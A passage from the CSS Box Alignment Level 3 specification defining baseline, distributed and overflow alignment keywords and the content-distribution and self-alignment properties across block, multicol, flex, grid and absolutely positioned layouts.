: Specifies participation in **last-baseline alignment**: aligns the alignment baseline of the box’s last baseline set with the corresponding baseline of its baseline-sharing group.̣ See [§ 9.3 Aligning Boxes by Baseline](#css-align-3:align-by-baseline) for more details.

  The fallback alignment for `last baseline` is `safe self-end` (for self-alignment) or `safe end` (for content-distribution).

When specified for `align-content`, these values trigger baseline content-alignment, shifting the content of the box within its content box, and may also affect the sizing of the box itself. See [§ 5.4 Baseline Content-Alignment](#css-align-3:baseline-align-content).

When specified for `align-self`/`justify-self`, these values trigger baseline self-alignment, shifting the entire box within its container, which may affect the sizing of its container. See [§ 6.4 Baseline Self-Alignment](#css-align-3:baseline-align-self).

When baseline self-alignment is specified on a box, content distribution is performed first, then the resulting box and its contents are self-aligned However, if the box also has baseline content-alignment in the same axis or if its content-distribution property in the same axis is `normal`, its used content-distribution property in that axis is `start` or `safe end` for a baseline alignment preference of its baseline self-alignment of “first” or “last”, respectively.

> **Issue:** Add example images here.

If a box does not belong to a shared alignment context, then the fallback alignment is used. For example, `align-content: baseline` on a block box falls back to `start` alignment. The fallback alignment is also used to align the baseline-sharing group within its alignment container.

> **Note:** Because they are equivalent, and `baseline` is shorter, the CSSOM serializes `first baseline` as `baseline`. See [CSSOM § 6.7.2 Serializing CSS Values](#cssom-1:serializing-css-values).

> **Note:** For the somewhat-related `vertical-align` property, due to inconsistent design decisions in CSS2.1, `baseline` is not equivalent to `first baseline` as an inline-level box’s baseline alignment preference depends on `display`. (E.g., `inline-block` uses its last baseline by default, while `inline-table` uses its first baseline by default.)

#### 4.3.  Distributed Alignment: the `stretch`, `space-between`, `space-around`, and `space-evenly` keywords {#css-align-3:distribution-values}

The **distributed alignment** values are used by `justify-content` and `align-content` to disperse a container’s extra space among its alignment subjects.


The distributed alignment values

When space cannot be distributed in this way, these values behave as their fallback alignment. Each distribution value has an associated default fallback alignment. (A future level of this module may allow the fallback alignment to be specified explicitly.)

****space-between****

: The alignment subjects are evenly distributed in the alignment container. The first alignment subject is placed flush with the start edge of the alignment container, the last alignment subject is placed flush with the end edge of the alignment container, and the remaining alignment subjects are distributed so that the spacing between any two adjacent alignment subjects is the same.

  

  The default fallback alignment for this value is `safe flow-start`.

****space-around****

: The alignment subjects are evenly distributed in the alignment container, with a half-size space on either end. The alignment subjects are distributed so that the spacing between any two adjacent alignment subjects is the same, and the spacing before the first and after the last alignment subject is half the size of the other spacing.

  

  The default fallback alignment for this value is `safe center`.

****space-evenly****

: The alignment subjects are evenly distributed in the alignment container, with a full-size space on either end. The alignment subjects are distributed so that the spacing between any two adjacent alignment subjects, before the first alignment subject, and after the last alignment subject is the same.

  

  The default fallback alignment for this value is `safe center`.

****stretch****

: If the combined size of the alignment subjects is less than the size of the alignment container, any `auto`-sized alignment subjects have their size increased equally (not proportionally), while still respecting the constraints imposed by `max-height`/`max-width` (or equivalent functionality), so that the combined size exactly fills the alignment container.

  

  The default fallback alignment for this value is `flow-start`.

  > **Note:** This `align-content/stretch` definition applies to the content-distribution properties; the self-alignment properties `justify-self`/`align-self` have their own `stretch` value, which can grow *or shrink* the alignment subject to ensure it exactly fits the alignment container.

These values are represented with the `<content-distribution>` grammar term:

```css
<content-distribution> = space-between | space-around | space-evenly | stretch
```

#### 4.4.  Overflow Alignment: the `safe` and `unsafe` keywords and scroll safety limits {#css-align-3:overflow-values}

In some situations, aligning exactly as specified would cause the alignment subject to overflow its alignment container, possibly causing data loss. For example, if the contents of a sidebar are unconditionally centered, items large enough to overflow it might extend beyond the viewport’s start edge, which can’t be scrolled to.

> **Example:** The figure below illustrates the difference in “safe” versus “unsafe” centering, using a column flexbox as an example:
>
> About
>
> Authoritarianism
>
> Blog
>
> About
>
> Authoritarianism
>
> Blog
>
> An example of "safe" (on the left) vs "unsafe" (on the right) centering, when the centered item is larger than its container.
>
> The items in the figure on the left are centered unless they overflow, in which case all the overflow goes off the end edge, while those in the figure on the right are are all strictly centered, even if the one that is too long to fit overflows on both sides.
>
> If the container was placed against the left edge of the page, the “safe” behavior would be more desirable, as the long item would be fully readable, rather than clipped by the left edge of the screen. In other circumstances, the “unsafe” centering behavior might be better, as it correctly centers all the items.

To control this situation, an **overflow alignment** mode can be explicitly specified. “Unsafe” alignment honors the specified alignment mode in overflow situations, even if it causes data loss, while “safe” alignment changes the alignment mode in overflow situations in an attempt to avoid data loss. The default behavior is to contain the alignment subject within the scrollable area, though at the time of writing this safety feature is not yet implemented.

```css
<overflow-position> = unsafe | safe
```

****safe****

: If the size of the alignment subject overflows the alignment container, the alignment subject is instead aligned as if the alignment mode were `flow-start`. However for absolutely positioned boxes, see [§ 4.4.1.2 Self-Alignment for Absolutely Positioned Boxes](#css-align-3:auto-safety-position).

****unsafe****

: Regardless of the relative sizes of the alignment subject and alignment container, the given alignment value is honored.

****default** (no value specified)**

: If the overflow alignment isn’t explicitly specified, the default overflow alignment is a blend of “safe” and “unsafe”. See [§ 4.4.1 Automatic Overflow Alignment Safety](#css-align-3:auto-safety) for details.

##### 4.4.1.  Automatic Overflow Alignment Safety {#css-align-3:auto-safety}

If no overflow alignment mode is specified for a property, the default behavior lies somewhere between `safe` and `unsafe`, and also varies by layout mode.

###### 4.4.1.1.  Content Distribution for Scroll Containers {#css-align-3:auto-safety-scroll}

In a scrollable axis of a scroll container, the default overflow alignment behavior for content distribution is `unsafe`. Non-`normal` values of the content-distribution properties instead alter the scrollable overflow area in order to allow access to the overflowing content. See [§ 5.3 Alignment Overflow and Scroll Containers](#css-align-3:overflow-scroll-position).

###### 4.4.1.2.  Self-Alignment for Absolutely Positioned Boxes {#css-align-3:auto-safety-position}

For absolutely positioned alignment subjects whose relevant used self-alignment property is not `normal`, the default and `safe` overflow alignment behavior is as follows:

1. If the alignment subject fits within the inset-modified containing block, align as specified to the extent possible without overflowing the inset-modified containing block.
2. Otherwise, if the alignment subject fits within the *overflow limit rect*, align the alignment subject such that it fully covers the inset-modified containing block and is otherwise aligned as specified to the extent possible without overflowing the *overflow limit rect*.
3. Otherwise, start-align the alignment subject within the *overflow limit rect*.

For this purpose, the *overflow limit rect* is the bounding rectangle of the alignment subject’s inset-modified containing block and its original containing block, extended as follows:

**for fixed-positioned boxes with default overflow alignment (only)**

: because a fixed-positioned box with a default anchor box that scrolls with the content can be scrolled into view when outside the scrollport, in such cases the *overflow limit rect* is extended to the scroll container’s entire scrollable overflow area.

**for absolutely positioned boxes that are not fixed positioned**

: because the scrollable overflow area of a scroll container can be extended to ensure the visibility of overflowing absolutely positioned boxes, if the original containing block is generated by a scroll container (and is not its fixed containing block), the *overflow limit rect* is extended to infinity in the scrollable axises in any direction that does not extend into the unreachable scrollable overflow region.

(For absolutely-positioned alignment subjects that fail the above condition, see [§ 4.4.1.3 All Other Alignment](#css-align-3:auto-safety-default).)

> **Note:** These rules constrain the position of the box to minimize overflow while honoring the specified alignment insofar as possible, and ensuring continuous behavior as the sizes of the boxes change.

> **Issue:** Define “scrolls with the page” to be more precise, capturing any anchors that are either contained by or anchored into the scrollable overflow area.

###### 4.4.1.3.  All Other Alignment {#css-align-3:auto-safety-default}

For all other elements:

1. If the alignment subject overflows its alignment container, align as specified (`unsafe`).
2. If the alignment subject would overflow the scrollable overflow area of its nearest ancestor scroll container, (thus extending into the “unscrollable” region), then its overflow in that direction is limited by biasing any remaining overflow to the opposite side.

> **Issue:** It may not be Web-compatible to implement the “smart” default behavior (though we hope so, and believe it to be likely), so UAs should pass any feedback on this point to the WG. UAs that have not implemented the “smart” default behavior must behave as `safe` for `align-content` on block containers and `unsafe` otherwise.

### 5.  Content Distribution: Aligning a Box’s Contents Within Itself {#css-align-3:content-distribution}

**Content distribution** controls alignment of the box’s content within its content box. It is specified by the **content-distribution properties** `align-content` and `justify-content` (and their `place-content` shorthand).


#### 5.1.  The `justify-content` and `align-content` Properties {#css-align-3:align-justify-content}

| Field | Value |
| --- | --- |
| Name: | **align-content** |
| [Value:](#css-values-4:value-defs) | normal \| `<baseline-position>` \| `<content-distribution>` \| `<overflow-position>`? `<content-position>` |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | block containers, multicol containers, flex containers, and grid containers |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword(s) |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

| Field | Value |
| --- | --- |
| Name: | **justify-content** |
| [Value:](#css-values-4:value-defs) | normal \| `<content-distribution>` \| `<overflow-position>`? [ `<content-position>` \| left \| right ] |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | multicol containers, flex containers, and grid containers |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword(s) |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

Aligns the contents of the box as a whole (as the alignment subject) within the box itself (as the alignment container): along the inline/row/main axis of the box (for `justify-content`) or the block/column/cross axis of the box (for `align-content`). Values other than **normal** are defined in [§ 4 Alignment Keywords](#css-align-3:alignment-values), above.

For all layout modes, the alignment subject and alignment container both assume the writing mode of the box the `*-content` property is set on.

##### 5.1.1. Block Containers (Including Table Cells) {#css-align-3:distribution-block}

| Alignment Container | The block container’s content box. |
| --- | --- |
| Alignment Subject(s) | The entire contents of the block, as a unit. |
| `align-content` Axis | The block axis. If a `<content-distribution>` is specified its fallback alignment is used instead. If no `<overflow-position>` is specified, and the block container is not a block-axis scroll container, then alignment is `safe`. |
| `justify-content` Axis | Does not apply to and has no effect on block containers. |
| `normal` Behavior | All values other than `normal` force the block container to establish an independent formatting context. For table cells, the behavior of `align-content: normal` depends on the computed value of `vertical-align`: `top` makes it behave as `start` and `bottom` makes it behave as `end`; otherwise `middle` makes it behave as `center`, and all other values make it behave as `baseline`. [CSS2] `normal` otherwise behaves as `start`. |

##### 5.1.2. Multicol Containers {#css-align-3:distribution-multicol}

| Alignment Container | The multi-column container’s content box. |
| --- | --- |
| Alignment Subject(s) | The column boxes, with any spacing inserted between column boxes added to the relevant column gaps. |
| `align-content` Axis | The block axis, treating the column boxes (and any column-spanning elements), as a singular unit. If a `<content-distribution>` is specified its fallback alignment is used instead. |
| `justify-content` Axis | The inline axis. |
| `normal` Behavior | `normal` behaves as `stretch`; both are defined as described in the column-sizing rules of [CSS-MULTICOL-1]. In the case of multi-column containers with a non-`auto` `column-width`, `justify-content` values other than `normal` or `stretch` cause the columns to take their specified `column-width` rather than stretching to fill the container. The column boxes are then aligned as specified by `justify-content`. |

##### 5.1.3. Flex Containers {#css-align-3:distribution-flex}

| Alignment Container | The flex container’s content box. |
| --- | --- |
| Alignment Subject(s) | For `justify-content`, the flex items in each flex line. For `align-content`, the flex lines. Note, this only has an effect on multi-line flex containers. |
| `align-content` Axis | The cross axis. |
| `justify-content` Axis | The `justify-content` property applies along the main axis, but since stretching in the main axis is controlled by `flex`, `stretch` behaves as `flow-start`. |
| `normal` Behavior | `normal` behaves as `stretch`. |

See [CSS-FLEXBOX-1] for details.

##### 5.1.4. Grid Containers {#css-align-3:distribution-grid}

| Alignment Container | The grid container’s content box. |
| --- | --- |
| Alignment Subject(s) | The grid tracks in the appropriate axis, with any spacing inserted between tracks added to the relevant gutters, and treating collapsed gutters as a single opportunity for space insertion. |
| `align-content` Axis | The block axis, aligning the grid rows. |
| `justify-content` Axis | The inline axis, aligning the grid columns. |
| `normal` Behavior | `normal` behaves as `stretch`. |

See [CSS-GRID-1] for details.

#### 5.2.  Content-Distribution Shorthand: the `place-content` property {#css-align-3:place-content}

| Field | Value |
| --- | --- |
| Name: | **place-content** |
| [Value:](#css-values-4:value-defs) | `<'align-content'>` `<'justify-content'>`? |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | see individual properties |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This shorthand property sets both the `align-content` and `justify-content` properties in one declaration. The first value is assigned to `align-content`. The second value is assigned to `justify-content`; if omitted, it is copied from the first value, unless that value is a `<baseline-position>` in which case it is defaulted to `start`.

#### 5.3.  Alignment Overflow and Scroll Containers {#css-align-3:overflow-scroll-position}

When the content-distribution properties are set in a scrollable axis of a scroll container with an overflowing alignment subject, they reduce the clipping of the unreachable scrollable overflow region just enough to ensure that alignment subject can be scrolled into its `start`-aligned position.

> **Example:** For example, if a scrollable flex container is set to `justify-content: flow-end` (or `justify-content: flow-start` with `flex-flow: row-reverse`), its in-flow content will be initially positioned to align the main-end edge of its content to the main-end edge of the flex container, and its content will appear to overflow its main-start edge. However, the viewer will be able to scroll *up* to view the overflowing in-flow content, just as if `justify-content: flow-start` had been specified.


Issue: Replace this image with a proper SVG.

> **Note:** The alignment subject is not necessarily identical to the scrollable overflow area: content overflowing the alignment subject—​such as an out-of-flow box—​grows the scrollable overflow area but not the alignment subject. Thus an `end`-aligned scroll container might not be initially scrolled all the way to the bottom, and positioned content can still be clipped if it is further into the unreachable scrollable overflow region than the in-flow content forming the alignment subject.


Overflow is not part of the alignment subject, even for a scroll container.

> **Issue:** Replace this image too.

> **Note:** The presence of scrollbars can change the size of the scroll container’s content box—​and thus the size of the alignment container and/or alignment subject.

#### 5.4.  Baseline Content-Alignment {#css-align-3:baseline-align-content}

The content of boxes participating in row-like layout contexts (shared alignment contexts) can be baseline-aligned to each other. **Baseline content-alignment** effectively increases the **padding** on the box to align the alignment baseline of its contents with that of other baseline-aligned boxes in its baseline-sharing group.

> **Note:** Implementations that do not fully support baseline content-alignment in applicable formatting contexts [must not parse the `baseline` values as valid](https://www.w3.org/TR/css/#partial). Lack of test coverage in [WPT](https://web-platform-tests.org/) is not an excuse for shipping broken implementations. <—​Currently browsers are parsing it but not doing anything useful with it. :( https://github.com/w3c/csswg-drafts/issues/13421 -->

Baseline content-alignment can only apply if the `align-content` axis is parallel with the box’s block axis (i.e. it does not apply to “column” flex containers); otherwise the fallback alignment is used.

The set of boxes that participate in baseline content-alignment depends on the layout model:

**Table Cells:**

: A (non-replaced) table cell participates in first/last baseline content-alignment in its startmost/endmost row if its inline axis is parallel to that of the table itself and its computed `align-content` is `first baseline` (`last baseline`).

  > **Note:** Baseline content-alignment of cells sharing a column is not supported; however this may be added in a future level if there is sufficient demand and implementer interest.

**Flex Items:**

: A non-replaced flex item participates in first/last baseline content-alignment in its flex line if its computed `align-content` is `first baseline`/`last baseline` and its inline axis is parallel to the main axis.

**Grid Items:**

: A non-replaced grid item participates in first/last baseline content-alignment in its startmost/endmost row or column (whichever is parallel to its inline axis) and if its computed `align-content` is `first baseline`/`last baseline`.

Additionally, in order to participate in baseline content-alignment it must also have a **coordinated self-alignment preference**, to guarantee that the box lines up the relevant edge with other boxes in its baseline-sharing group. That is, the box’s start (end) margin edge must be intended to align—​and actually align—​to the corresponding edge of its containing block when its baseline alignment preference is “first” (“last”). It otherwise takes its fallback alignment.

> **Note:** When is a self-alignment preference coordinated?
>
> A box’s start margin edge is aligned to the corresponding edge of its containing block and it has a coordinated self-alignment preference for a “first” baseline alignment preference when, in the relevant axis:
>
> - There are no `auto` margins and the relevant self-alignment property either is or aligns identically to `stretch` or `self-start`; or
> - There is only an `auto` end-edge margin, which absorbs any positive free space and disables the effects of any self-alignment property, *and* its margin box does not overflow its containing block under circumstances that would cause it to effectively end-align instead (such as having a containing block with an opposite writing mode).
>
> A box’s end margin edge is aligned to the corresponding edge of its containing block and it has a coordinated self-alignment preference for a “last” baseline alignment preference when, in the relevant axis:
>
> - There are no `auto` margins and the relevant self-alignment property either is or aligns identically to `self-end` *and* its self-alignment is what would result from an `unsafe` overflow alignment; or
> - There is only an `auto` start-edge margin, which absorbs any positive free space and disables the effects of any self-alignment property *and* its margin box does not overflow its containing block under circumstances that would cause it to effectively start-align instead.

See [§ 9.3 Aligning Boxes by Baseline](#css-align-3:align-by-baseline) for additional details. Baseline content-alignment can increase the intrinsic size of the box.

### 6.  Self-Alignment: Aligning the Box Within Its Parent {#css-align-3:self-alignment}

**Self-alignment** controls alignment of the box within its containing block. It is specified by the **self-alignment properties** `align-self` and `justify-self` (and their `place-self` shorthand).


#### 6.1.  Inline-Axis (or Main-Axis) Self-Alignment: the `justify-self` property {#css-align-3:justify-self-property}

| Field | Value |
| --- | --- |
| Name: | **justify-self** |
| [Value:](#css-values-4:value-defs) | auto \| `<overflow-position>`? [ normal \| `<self-position>` \| left \| right ] \| stretch \| `<baseline-position>` |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | block-level boxes, absolutely-positioned boxes, and grid items |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword(s) |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

Justifies the box (as the alignment subject) within its containing block (as the alignment container) along the inline/row/main axis of the alignment container: the box’s outer edges are aligned within its alignment container [as described by its alignment value](#css-align-3:alignment-values). Values have the following meanings:

****auto****

: Behaves as `normal` if the box has no parent, or when determining the actual position of an absolutely positioned box. It behaves as the computed `justify-items` value of the parent box (minus any `legacy` keywords) otherwise (including when determining the *static* position of an absolutely positioned box).

****normal****

: Represents the “default” alignment for the layout mode. Its behavior depends on the layout mode, as described below.

**`<self-position>` | left | right**

: Shifts the position of the box as specified, see [§ 4 Alignment Keywords](#css-align-3:alignment-values).

**`<overflow-position>`**

: Controls how the box aligns when it overflows, see [§ 4.4 Overflow Alignment: the safe and unsafe keywords and scroll safety limits](#css-align-3:overflow-values).

****stretch****

: When the box’s computed `width`/`height` (as appropriate to the axis) is `auto` and neither of its margins (in the appropriate axis) are `auto`, sets the box’s used size to the length necessary to make its outer size as close to filling the alignment container as possible while still respecting the constraints imposed by `min-height`/`min-width`/`max-height`/`max-width`.

  Unless otherwise specified, this value falls back to `flow-start` generally, and to `self-start` or `self-end` if the box has also specified first baseline or last baseline baseline content-alignment (respectively) in the same axis.

  > **Note:** The `stretch` keyword can cause elements to shrink, to fit their container.

**`<baseline-position>`**

: Indicates baseline self-alignment, as defined in [§ 4.2 Baseline Alignment: the baseline keyword and first/last modifiers](#css-align-3:baseline-values), [§ 6.4 Baseline Self-Alignment](#css-align-3:baseline-align-self), and [§ 9 Baseline Alignment Details](#css-align-3:baseline-rules).

Values other than `stretch` cause a `width`/`height` of `auto` to be treated as `fit-content`.

> **Note:** `auto` margins, because they effectively adjust the size of the margin area, take precedence over `justify-self`.

##### 6.1.1. Block-Level Boxes {#css-align-3:justify-block}

| `justify-self` Axis | The block’s containing block’s inline axis, generally. The static-position containing block’s inline axis when determining the static position. |
| --- | --- |
| Alignment Container | The box’s containing block, except that for block-level elements that establish a block formatting context and are placed next to a float, the alignment container is reduced by the space taken up by the float, assuming the writing mode of the containing block. |
| Alignment Subject | The block’s margin box, assuming the writing mode of the block. |
| `normal` Behavior | The box lays out according to the default rules for block layout (see [CSS2.1§10.3](#css2:Computing_widths_and_margins)). |
| Other Details | The automatic size of a block-level box whose `justify-self` is not `normal` is equivalent to `fit-content` (rather than e.g. `stretch`, as is typical for a non-replaced block-level box). Additionally, in terms of CSS2.1 block-level formatting [CSS2], the rules for “over-constrained” computations in [section 10.3.3](#css2:blockwidth) are ignored in favor of alignment as specified here and the used value of the margin properties are therefore not adjusted to correct for the over-constraint. This property does not apply to floats. Anonymous block boxes always behave as `normal`. |

> **Example:** The effect of these rules is that an auto-sized block-level table, for example, can be aligned while still having side margins. If the table’s max-content size is narrower than its containing block, then it is shrink-wrapped to that size and aligned as specified. If the table’s max-content size is wider, then it fills its containing block, and the margins provide appropriate spacing from the containing block edges.

##### 6.1.2. Absolutely-Positioned Boxes {#css-align-3:justify-abspos}

This section describes the effect of `justify-self` on how the margin box of an absolutely-positioned box is positioned with respect to its (absolute-positioning) containing block.

| `justify-self` Axis | The block’s containing block’s inline axis. |
| --- | --- |
| Alignment Container | The box’s containing block, as modified by the inset properties (`top`/`right`/`bottom`/`left`), assuming the writing mode of the containing block. If both inset properties in the relevant axis are `auto`, then use the box’s static-position rectangle (i.e. set both insets to the box’s static position) and assume the writing mode of the static-position containing block. |
| Alignment Subject | The box’s margin box, assuming the writing mode of the box. |
| `normal` Behavior | Behaves as `stretch` or `start`, depending on the type of box. See [CSS Positioned Layout 3 § 4 Absolute Positioning Layout Model](#css-position-3:abspos-layout). |
| Other Details | In terms of CSS2.1 formatting [CSS2], the rules for “over-constrained” computations in [section 10.3.7](#css2:abs-non-replaced-width) are ignored in favor of alignment as specified here, and the used value of the inset properties are not adjusted to correct for the over-constraint. Values other than `stretch` or `normal` cause [non-replaced absolutely-positioned boxes](#css2:abs-non-replaced-width) to use fit-content sizing for calculating `auto` sizes in the affected axis. Note that `stretch` *does* cause replaced absolutely-positioned boxes to fill their containing block just as non-replaced ones do. Note: If only one inset property is `auto`, the computations in [CSS2 section 10.3.7](#css2:abs-non-replaced-width) fully determine its size and position, and `justify-self` has no effect. (If both are `auto`, then the box is statically-positioned, see above, and can be aligned within the static-position rectangle.) |

##### 6.1.3. Table Cells {#css-align-3:justify-cell}

This property does not apply to table cells, because their position and size is fully constrained by table layout.

##### 6.1.4. Flex Items {#css-align-3:justify-flex}

This property does not apply to flex items, because there is more than one item in the main axis. See `flex` for stretching and `justify-content` for main-axis alignment. [CSS-FLEXBOX-1]

##### 6.1.5. Grid Items {#css-align-3:justify-grid}

| `justify-self` Axis | The grid’s inline axis. |
| --- | --- |
| Alignment Container | The grid item’s grid area, assuming the writing mode of the grid container. |
| Alignment Subject | The grid item’s margin box, assuming the writing mode of the grid item. |
| `normal` Behavior | Sizes as either `stretch` (typical non-replaced elements) or `start` (typical replaced elements); see [Grid Item Sizing](#css-grid-2:grid-item-sizing) in [CSS-GRID-1]. The resulting box is then start-aligned. |

See [CSS-GRID-1] for details.

#### 6.2.  Block-Axis (or Cross-Axis) Self-Alignment: the `align-self` property {#css-align-3:align-self-property}

| Field | Value |
| --- | --- |
| Name: | **align-self** |
| [Value:](#css-values-4:value-defs) | auto \| `<overflow-position>`? [ normal \| `<self-position>` ] \| stretch \| `<baseline-position>` |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | flex items, grid items, and absolutely-positioned boxes |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword(s) |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

Aligns the box (as the alignment subject) within its containing block (as the alignment container) along the block/column/cross axis of the alignment container: the box’s outer edges are aligned within its alignment container [as described by its alignment value](#css-align-3:alignment-values). Values have the following meanings:

****auto****

: Behaves as `normal` if the box has no parent, or when determining the actual position of an absolutely positioned box. It behaves as the computed `align-items` value of the parent box (minus any `legacy` keywords) otherwise (including when determining the *static* position of an absolutely positioned box).

****normal****

: Represents the “default” alignment for the layout mode, as defined below.

**`<self-position>`**

: Shifts the position of the box as specified, see [§ 4 Alignment Keywords](#css-align-3:alignment-values).

**`<overflow-position>`**

: Controls how the box aligns when it overflows, see [§ 4.4 Overflow Alignment: the safe and unsafe keywords and scroll safety limits](#css-align-3:overflow-values).

****stretch****

: As defined for `justify-self` in [§ 6.1 Inline-Axis (or Main-Axis) Self-Alignment: the justify-self property](#css-align-3:justify-self-property).

**`<baseline-position>`**

: Indicates baseline self-alignment, as defined in [§ 4.2 Baseline Alignment: the baseline keyword and first/last modifiers](#css-align-3:baseline-values), [§ 6.4 Baseline Self-Alignment](#css-align-3:baseline-align-self), and [§ 9 Baseline Alignment Details](#css-align-3:baseline-rules).

> **Note:** `auto` margins, because they effectively adjust the size of the margin area, take precedence over `align-self`.

##### 6.2.1. Block-Level Boxes {#css-align-3:align-block}

The `align-self` property does not apply to block-level boxes (including floats), because there is more than one item in the block axis.

##### 6.2.2. Absolutely-Positioned Boxes {#css-align-3:align-abspos}

This section describes the effect of `align-self` on how the margin box of an absolutely-positioned box is positioned with respect to its (absolute-positioning) containing block.

| `align-self` Axis | The box’s containing block’s block axis, generally. The static-position containing block’s block axis when determining the static position. |
| --- | --- |
| Alignment Container | The box’s containing block, as modified by the inset properties (`top`/`right`/`bottom`/`left`), assuming the writing mode of the containing block. If both inset properties in the relevant axis are `auto`, then use the box’s static-position rectangle (i.e. set both insets to the box’s static position) and assume the writing mode of the static-position containing block. |
| Alignment Subject | The box’s margin box, assuming the writing mode of the box. |
| `normal` Behavior | Behaves as `stretch` or `start`, depending on the type of box. See [CSS Positioned Layout 3 § 4 Absolute Positioning Layout Model](#css-position-3:abspos-layout). |
| Other Details | In terms of CSS2.1 formatting [CSS2], the rules for "over-constrained" computations in [section 10.6.4](#css2:abs-non-replaced-height) are ignored in favor of alignment as specified here and the used value of the inset properties are not adjusted to correct for the over-constraint. Values other than `stretch` or `normal` cause [non-replaced absolutely-positioned boxes](#css2:abs-non-replaced-height) to use fit-content sizing for calculating `auto` sizes in the affected axis. Note that `stretch` does cause replaced absolutely-positioned boxes to fill their containing block just as non-replaced ones do. Note: If only one inset property is `auto`, the computations in [CSS2 section 10.6.4](#css2:abs-non-replaced-height) fully determine its size and position, and `align-self` has no effect. (If both are `auto`, then the box is statically-positioned, see above, and can be aligned within the static-position rectangle.) |

##### 6.2.3. Table Cells {#css-align-3:align-cell}

This property does not apply to table cells, because their position and size is fully constrained by table layout.

##### 6.2.4. Flex Items {#css-align-3:align-flex}

| `align-self` Axis | The flex container’s cross axis. |
| --- | --- |
| Alignment Container | The flex line the flex item is in, assuming the writing mode of the flex container. |
| Alignment Subject | The flex item’s margin box, assuming the writing mode of the flex item. |
| `normal` Behavior | Behaves as `stretch`. |

See [CSS-FLEXBOX-1] for details.

##### 6.2.5. Grid Items {#css-align-3:align-grid}

| `align-self` Axis | The grid’s block axis. |
| --- | --- |
| Alignment Container | The grid item’s grid area, assuming the writing mode of the grid container. |
| Alignment Subject | The grid item’s margin box, assuming the writing mode of the grid item. |
| `normal` Behavior | Sizes as either `stretch` (typical non-replaced elements) or `start` (typical replaced elements); see [Grid Item Sizing](#css-grid-2:grid-item-sizing) in [CSS-GRID-1]. The resulting box is then start-aligned. |

See [CSS-GRID-1] for details.

#### 6.3.  Self-Alignment Shorthand: the `place-self` property {#css-align-3:place-self-property}

| Field | Value |
| --- | --- |
| Name: | **place-self** |
| [Value:](#css-values-4:value-defs) | `<'align-self'>` `<'justify-self'>`? |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | see individual properties |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This shorthand property sets both the `align-self` and `justify-self` properties in a single declaration. The first value is assigned to `align-self`. The second value is assigned to `justify-self`; if omitted, it is copied from the first value.

#### 6.4.  Baseline Self-Alignment {#css-align-3:baseline-align-self}

Boxes participating in row-like layout contexts (shared alignment contexts) can be baseline-aligned to each other. **Baseline self-alignment** effectively increases the **margins** on the box to align its alignment baseline with that of other baseline-aligned boxes in its baseline-sharing group.

The set of boxes that participate in baseline self-alignment depends on the layout model:

**Flex Items:**

: A flex item participates in first/last baseline self-alignment in its flex line if its computed `align-self` is `first baseline`/`last baseline`. See [CSS-FLEXBOX-1] for details.

**Grid Items:**

: A grid item participates in first/last baseline self-alignment in its startmost/endmost row or column if its `align-self` or `justify-self` property (respectively) computes to `first baseline`/`last baseline`.

See [§ 9.3 Aligning Boxes by Baseline](#css-align-3:align-by-baseline) for exact details. Baseline self-alignment can increase the intrinsic size contribution of the box.

#### 6.5.  Effects on Sizing of Absolutely Positioned Boxes with Static-Position Insets {#css-align-3:abspos-sizing}

For absolutely-positioned boxes whose inline-axis offsets are both `auto`, the available space for calculating the inline size is also affected by alignment.

> **Note:** In [CSS2], the available space is keyed off of the `direction` property of the static-position containing block. (See [CSS2§10.3.7](#css2:abs-non-replaced-width) and [CSS2§10.3.8](#css2:abs-replaced-width).) Fundamentally these rules set one of the `auto` insets (by default, the start-edge inset) to the corresponding edge of the static-position rectangle and the other to the corresponding edge of the containing block (i.e. set the inset to zero). Just as the self-alignment properties replace the containing block’s `direction` lookup for placement, they also replace this lookup for sizing, as specified here.

Thus, when interpreting the rules in [CSS2§10.3.7](#css2:abs-non-replaced-width) and [CSS2§10.3.8](#css2:abs-replaced-width), wherever the `direction` property of the static-position containing block is referenced, instead reference the value of the `align-self` or `justify-self` property (whichever is defined to apply to the relevant axis), treating left-equivalent alignment as defined for `ltr` and right-equivalent alignment as defined for `rtl`. Treat `normal` as `start` and any distributed alignment value as its fallback alignment.

In the case of `center` alignment, the available space for the box is double the distance between the center of the static-position rectangle and the closest edge of the containing block in the relevant axis.


Instead of always sizing within the available space between the inline-start static position and the inline-end containing block edge as specified in [CSS2], an absolutely-positioned element with `auto` insets will be sized with reference to the static-position rectangle’s edge(s) *most appropriate* to its specified self-alignment.

